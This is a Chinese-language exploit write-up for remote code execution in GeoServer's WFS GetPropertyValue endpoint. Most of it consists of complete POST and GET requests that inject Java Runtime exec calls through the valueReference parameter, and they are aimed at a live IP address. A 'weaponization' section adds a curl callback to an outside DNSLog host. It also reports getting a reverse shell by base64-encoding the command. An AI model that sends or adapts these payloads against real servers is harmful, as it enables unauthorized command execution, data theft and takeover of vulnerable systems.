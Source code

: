 # 0x01 漏洞复现
## POST
```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
![image](./01.png)

## GET
```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```
![image](./02.png)

## 结果
成功创建文件success1和success2  
![image](./03.png)  
值得注意的是，typeNames必须存在，我们可以在Web页面中找到当前服务器中的所有Types  


# 0x02 武器化
## POST
### DNSLog

需要注意ping pvip4zip.eyes.sh会报错，需要用curl pvip4zip.eyes.sh

```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 358

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'curl pvip4zip.eyes.sh')</wfs:valueReference>
</wfs:GetPropertyValue>
```
成功收到dnslog记录  
![image](./04.png)  

### 反弹Shell
直接插入反弹shell的命令会提示请求解析失败  
![image](./07.png)  

base64编码后，返回正常  
![image](./06.png)  

成功收到反弹shell  
![image](./05.png)  